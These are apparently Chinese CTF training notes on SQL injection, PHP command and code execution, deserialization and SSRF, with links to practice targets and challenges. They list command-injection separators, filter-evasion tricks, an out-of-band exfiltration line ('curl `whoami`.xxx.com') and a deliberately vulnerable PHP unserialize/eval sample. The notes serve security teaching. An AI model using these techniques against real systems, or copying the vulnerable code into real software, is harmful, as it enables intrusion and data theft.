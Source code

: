 ### sql注入原理与进阶
知识点-对应练习:
- 万能密码  http://139.224.43.82:49154/index.php
- 常规sql注入-sqli-labs前俩关
- 报错注入-sqli-labs第五关 [[培训/报错注入]]
- 盲注(布尔盲注,时间盲注) [[培训/盲注脚本]] [[培训/[CISCN 2019华北Day2]Web1]] nssctf
- 堆叠注入-[[培训/强网杯 2019随便注]]
总结:sql语句拼接导致,预编译可直接阻止,但是预编译在order by存在时无法使用,此时只能过滤

练习:sqli-lab靶场
http://ip/sqli-labs/
[[通关流程]]
真题复现:


### php代码执行与命令执行
总结:
命令执行:
```
system()，passthru()，exec()，pcntl_exec()，shell_exec()，popen()/proc_popen()，反引号 ``
```
代码执行:
```
eval()，assert()，call_user_func()，create_function()，array_map()，call_user_func_array()，array_filter()，uasort()，preg_replace()
```
只要上述函数里的变量可控,即有可能存在漏洞

命令执行
```python
; ` & || | $()
#换行
%0A
#回车
%0d
#局部变量
a=l;b=s;$a$b
#curl 外带
curl `whoami`.xxx.com
```

关键词过滤
```python
ca\t fl\ag

```
练习:dvwa

真题复现:
[UUCTF 2022 新生赛]ez_rce [[培训/[UUCTF 2022 新生赛]ez_rce]]
[GXYCTF 2019]Ping Ping Ping nssctf [[培训/pingpingping]]
ctfshow命令执行大挑战
ciscn 2023 dumpit
sekaictf 2023 Scanner Service

### php反序列化综合
序列化示例代码
```php
<?php 
    class test
    {
        private $flag = "flag{233}";
        public $a = "aaa";
        static $b = "bbb";
    }

    $test = new test;
    $data = serialize($test);
    echo $data;
 ?>

```

键:数量:值

反序列化代码
```php
<?php 
    $str = 'O%3A4%3A%22test%22%3A2%3A%7Bs%3A10%3A%22%00test%00flag%22%3Bs%3A9%3A%22flag%7B233%7D%22%3Bs%3A1%3A%22a%22%3Bs%3A3%3A%22aaa%22%3B%7D';
    $data = urldecode($str);
    $obj = unserialize($data);

    var_dump($obj);
 ?>
```

魔术方法
```php
__construct()//创建对象时触发
__destruct() //对象被销毁时触发
__call() //在对象上下文中调用不可访问的方法时触发
__callStatic() //在静态上下文中调用不可访问的方法时触发
__get() //用于从不可访问的属性读取数据
__set() //用于将数据写入不可访问的属性
__isset() //在不可访问的属性上调用isset()或empty()触发
__unset() //在不可访问的属性上使用unset()时触发
__invoke() //当脚本尝试将对象调用为函数时触发

```

练习: http://139.224.43.82:49156/
```php
﻿<?php
class Init
{
  public $u;
  public $p;
  function __destruct()
  {
    $high = 'nice'.$this->p;
    echo $high;
  }
}
class Str
{
  public $a;
  function __toString()
  {
    eval($this->a);
    return 'nice';
  }
}
if(isset($_GET['id']))
{
  unserialize($_GET['id']);
}
else
{
  highlight_file(__FILE__);
}      
?>
```

http://36.152.17.3:40024/

#### 进阶:
绕过__wakeup():
> 利用条件：
PHP5 < 5.6.25
​PHP7 < 7.0.10

当序列化字符串中表示对象属性个数的数字值大于真实类中属性的个数时就会跳过__wakeup的执行，
[[[SWPUCTF 2021 新生赛]no_wakeup]]



真题:
[[培训/[SWPUCTF 2021 新生赛]pop]]

### ssrf(Server Side Request Forgery)服务端请求伪造
练习靶场
http://110.40.154.212/06/vul/ssrf/ssrf.php
https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-localhost
真题:
[[培训/[HNCTF 2022 WEEK2]ez_ssrf]]


